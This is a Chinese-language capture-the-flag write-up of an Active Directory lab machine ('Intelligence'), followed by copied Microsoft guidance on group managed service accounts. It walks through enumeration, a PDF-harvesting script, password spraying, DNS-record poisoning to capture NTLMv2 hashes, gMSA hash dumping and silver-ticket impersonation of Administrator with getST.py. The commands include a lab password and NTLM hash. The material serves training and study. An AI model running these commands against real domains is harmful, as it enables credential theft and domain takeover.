

# 域渗透实战之Intelligence - 先知社区

域渗透实战之Intelligence

- - -

# 信息收集

## 端口扫描

使用nmap进行端口探测，发现存在DNS (53)、HTTP (80)、Kerberos (88)、LDAP (389) 和 SMB/RCP（135、139 和 445）大量端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212731-62de8cf2-8b96-1.png)

它看起来像是 Windows 操作系统的正常 Active Directory 设置。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212743-6a0d65e8-8b96-1.png)

发现是标准的DC端口，还多了个WEB的80。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212752-6f1e27de-8b96-1.png)

## SMB未授权

使用CrackMapExec来进行查询， 显示 Intelligence.htb 的域名和 DC 的主机名

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212801-74720b88-8b96-1.png)

## DNS - TCP/UDP 53

由标识的域的 Intelligencecrackmapexec返回信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212810-79fee116-8b96-1.png)

发现 DNS 正在侦听，尝试区域传输，未成功。

## dnsenum枚举

使用dnsenum进行枚举，发现一些子域名。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212821-80788b82-8b96-1.png)

## LDAP

让我们进行 LDAP 搜索以获取 AD（Active Directory）的命名上下文。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212830-85c58342-8b96-1.png)

## 网站文档信息

找到了2个文档，并将其进行下载。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212839-8b27906e-8b96-1.png)

## EXIF数据提取

在文档里面未发现有用的东西，我们看一下EXIF数据：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212849-912866be-8b96-1.png)

发现2个文档地址  
● [http://intelligence.htb/documents/2020-01-01-upload.pdf](http://intelligence.htb/documents/2020-01-01-upload.pdf)  
● [http://intelligence.htb/documents/2020-12-15-upload.pdf](http://intelligence.htb/documents/2020-12-15-upload.pdf)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212858-96dd097a-8b96-1.png)

# 漏洞利用

## 目录爆破

使用feroxbuster对网站进行爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212907-9bf643d6-8b96-1.png)

使用 Kerberos 进行域用户检查

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212915-a1053bc0-8b96-1.png)

## 编写脚本

使用脚本进行下载文件。

```plain
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```

使用脚本进行下载。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212937-adfd9188-8b96-1.png)

## 获取密码

### 数据提取

```plain
for file in *.pdf; do pdftotext -layout "$file"; done
```

## 密码喷洒

使用crackmapexec 来进行密码喷射

```plain
crackmapexec smb intelligence.htb -u ./users.txt -p '<HIDDEN>'
```

## SMB 共享

使用smbmap 来枚举 SMB 共享。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125212952-b72be962-8b96-1.png)

发现存在大量共享目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213004-be033100-8b96-1.png)

我们拥有对“用户”和“IT”的读取权限。我们可以让 smbmap 列出我们有权访问的所有内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213016-c55acc56-8b96-1.png)

# 域渗透

## BloodHound

使用BloodHound来获取用户/计算机/权限的转储

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213027-cbddd15e-8b96-1.png)

## 获取user.txt

下载user.txt之后，进行查看。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213035-d0c3f158-8b96-1.png)

## PowerShell 脚本

发现存在PowerShell 脚本，我们下载查看一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213043-d5892384-8b96-1.png)

使用cat命令进行查看。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213051-d9caf9ea-8b96-1.png)

## 利用脚本

这个脚本是一个循环来检索 AD 中名称类似于 web\* 的所有记录。然后，它使用 Invoke-WebRequest 和名称列表并尝试进行身份验证

```plain
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
  try {
    $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
    if(.StatusCode -ne 200) {
      Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
    }
  } catch {}
}
```

## 获取哈希值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213121-eba89820-8b96-1.png)

使用dnstool.py来枚举用户hash  
dnstool.py是Krbrelayx附带的一个脚本，它可以：  
通过 LDAP 添加/修改/删除 Active Directory 集成 DNS 记录。  
值得一试，看看 Tiffany.Molina 是否有权通过使用以下选项运行来进行此类更改：  
● -u intelligence\\Tiffany.Molina- 进行身份验证的用户；  
● -p NewIntelligenceCorpUser9876- 用户的密码；  
● --action add- 添加新记录；  
● --record web-x- 要添加的域；  
● --data 10.01.14.19- 要添加的数据  
● --type A- 要添加的记录类型。

运行脚本，并使用nc进行监听  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213132-f24a9d90-8b96-1.png)  
使用Responder来获取 Net-NTLMv2 哈希

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213144-f9c11fb8-8b96-1.png)

## 破解hash

过几分钟后，我们获取了 Ted.Graves 密码哈希值，使用 JohnTheRipper 来破解它：

## 获取GMSA密码

组管理服务帐户(GMSA) 为服务帐户提供额外的安全性。  
利用Python 工具gMSADumper来获取它，接着使用Tiffany.Molina这个用户，去枚举并未发现有用的信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213204-0551a6ae-8b97-1.png)

```plain
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate administrator intelligence.htb/svc_int

getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes : 87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int

svc_int$:::87c12d4a0641b2b17fb5620cc2db2ca8

getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate Administrator


getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int
 getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
```

## 获取门票

使用getST.py来制作票据。我需要传递以下选项：  
● -dc-ip 10.10.10.248  
● -spn www/dc.intelligence.htb- SPN（见下文）  
● -hashes :5e47bac787e5e1970cf9acdb5b316239- 我之前收集的NTLM  
● -impersonate administrator- 我想要票的用户  
● intelligence.htb/svc\_int- 我正在运行的帐户  
要获取 SPN，请在 Bloodhound 中 svc\_int 用户的节点信息 -> 节点属性部分中获取：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213218-0deff20c-8b97-1.png)

## 修复时间偏差

当我运行它时，它提示因为时间偏差而关闭。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213231-15f1fbbc-8b97-1.png)

启动虚拟机备份并安装 ntupdate 和 chrony：  
apt install ntpdate chrony  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213245-1dde45f6-8b97-1.png)  
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc\_int  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213257-2535a2c2-8b97-1.png)

## 获取shell

成功获取管理员权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213315-2fa6de60-8b97-1.png)

## 获取root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231125213332-39dd9b1c-8b97-1.png)

# 总结：

## 渗透思路总结

● 企业资产枚举  
● LDAP 枚举  
● 编写python脚本批量下载并提取数据  
● 使用kerbrute和crackmapexec来暴力破解Kerberos  
● 使用 krbrelayx 的 dnstool 添加 dns 记录，然后使用响应程序获取 NTLMv2 哈希  
● 使用 john 破解 NTLMv2 哈希  
● 使用 gMSADumper 获取 svc\_int 的哈希值  
● 使用 ntpdate 和 chrony 在服务器和计算机之间同步时间  
● 使用 getST.py 获取 Administrator.ccache 来执行 Silver Ticket 攻击  
● 使用 smbclient.py 或 atexec.py 和 Silver Ticket 来获取用户和 root 标志

## 组托管服务帐户

组托管服务帐户 (gMSA) 是帮助保护服务安全的域帐户。gMSA 可以在一台服务器或服务器场中运行，例如网络负载平衡或 Internet 信息服务 (IIS) 服务器后面的系统。将服务配置为使用 gMSA 主体后，帐户密码管理将由 Windows 操作系统 (OS) 处理。  
原文链接：[https://learn.microsoft.com/en-us/entra/architecture/service-accounts-group-managed](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-group-managed)

## GMSA 的好处

gMSA 是一种具有更高安全性的身份解决方案，有助于减少管理开销：  
● 设置强密码- 240 字节、随机生成的密码：gMSA 密码的复杂性和长度最大限度地降低了暴力或字典攻击造成损害的可能性  
● 定期循环使用密码- 密码管理由 Windows 操作系统负责，每 30 天更改一次密码。服务和域管理员不需要安排密码更改或管理服务中断。  
● 支持部署到服务器场- 将 gMSA 部署到多个服务器以支持多个主机运行相同服务的负载平衡解决方案  
● 支持简化的服务主体名称 (SPN) 管理- 在创建帐户时使用 PowerShell 设置 SPN。  
○ 此外，如果 gMSA 权限设置正确，支持自动 SPN 注册的服务可能会针对 gMSA 进行注册。

## 使用 GMSA

使用 gMSA 作为本地服务的帐户类型，除非服务（例如故障转移群集）不支持它。  
重要的  
在投入生产之前使用 gMSA 测试您的服务。设置测试环境以确保应用程序使用 gMSA，然后访问资源。有关详细信息，请参阅对组托管服务帐户的支持。  
如果服务不支持 gMSA，您可以使用独立托管服务帐户 (sMSA)。sMSA 具有相同的功能，但旨在部署在单个服务器上。  
如果您无法使用服务支持的 gMSA 或 sMSA，请将服务配置为以标准用户帐户运行。服务和域管理员需要遵守强密码管理流程，以帮助确保帐户安全。  
评估 GMSA 安全状况  
gMSA 比标准用户帐户更安全，后者需要持续的密码管理。但是，请考虑与安全状况相关的 gMSA 访问范围。下表显示了使用 gMSA 的潜在安全问题和缓解措施：  
安全问题 减轻  
gMSA 是特权组的成员 - 查看您的群组成员资格。创建 PowerShell 脚本来枚举组成员身份。按 gMSA 文件名筛选生成的 CSV 文件

-   从特权组中删除 gMSA
-   授予运行其服务所需的 gMSA 权利和权限。请咨询您的服务供应商。  
    gMSA 对敏感资源具有读/写访问权限 - 审核对敏感资源的访问
-   将审核日志存档到 SIEM，例如 Azure Log Analytics 或 Microsoft Sentinel
-   如果存在不必要的访问级别，则删除不必要的资源权限  
    ##查找 GMSA  
    您的组织可能有 gMSA。要检索这些帐户，请运行以下 PowerShell cmdlet：  
    电源外壳复制  
    Get-ADServiceAccount  
    Install-ADServiceAccount  
    New-ADServiceAccount  
    Remove-ADServiceAccount  
    Set-ADServiceAccount  
    Test-ADServiceAccount  
    Uninstall-ADServiceAccount  
    ##托管服务帐户容器  
    为了有效工作，gMSA 必须位于托管服务帐户容器中。

要查找不在列表中的服务 MSA，请运行以下命令：  
电源外壳复制

```plain
Get-ADServiceAccount -Filter *

# This PowerShell cmdlet returns managed service accounts (gMSAs and sMSAs). Differentiate by examining the ObjectClass attribute on returned accounts.

# For gMSA accounts, ObjectClass = msDS-GroupManagedServiceAccount

# For sMSA accounts, ObjectClass = msDS-ManagedServiceAccount

# To filter results to only gMSAs:
```

Get-ADServiceAccount –Filter \* | where-object {$\_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}

## 管理 GMSA

要管理 gMSA，请使用以下 Active Directory PowerShell cmdlet：  
Get-ADServiceAccount  
Install-ADServiceAccount  
New-ADServiceAccount  
Remove-ADServiceAccount  
Set-ADServiceAccount  
Test-ADServiceAccount  
Uninstall-ADServiceAccount  
在 Windows Server 2012 及更高版本中，\*-ADServiceAccount cmdlet 可与 gMSA 配合使用。了解更多信息：开始使用组托管服务帐户。

## 移至 GMSA

gMSA 是一种适用于本地的安全服务帐户类型。如果可能，建议您使用 gMSA。此外，请考虑将服务迁移到 Azure，将服务帐户迁移到 Microsoft Entra ID。  
在将服务配置为使用 gMSA 之前，请参阅组托管服务帐户入门。  
要迁移到 gMSA：

1.  确保密钥分发服务 (KDS) 根密钥部署在林中。这是一次性操作。请参阅创建密钥分发服务 KDS 根密钥。
2.  创建新的 gMSA。请参阅组托管服务帐户入门。
3.  在运行该服务的主机上安装新的 gMSA。
4.  将您的服务标识更改为 gMSA。
5.  指定空白密码。
6.  验证您的服务是否在新的 gMSA 身份下运行。
7.  删除旧的服务帐户标识。
